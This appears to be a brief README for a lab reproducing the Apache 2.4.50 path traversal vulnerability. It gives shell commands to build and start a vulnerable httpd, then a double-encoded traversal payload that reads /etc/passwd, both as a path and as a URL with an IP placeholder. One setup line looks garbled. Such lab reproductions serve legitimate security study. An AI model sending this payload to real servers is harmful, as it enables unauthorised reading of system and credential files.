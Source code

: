 # Apache-2.4.50---Path-Traversal # setup 


apt-get update

apt-get install wget curl make gcc perl -y

apt-get install libapr1-dev libaprutil1-dev libpcre3-dev -y

wget https://archive.apache.org/dist/httpd/httpd-2.4.50.tar.gz

tar -xf httpd-2.4.50.tar.gz

./httpd-2.4.50/configure --prefix=/usr/local/apache

make && make install

httpd.conf /conf/httpd.conf


/usr/local/apache/bin/apachectl -k start


/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd

http://<ip>/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
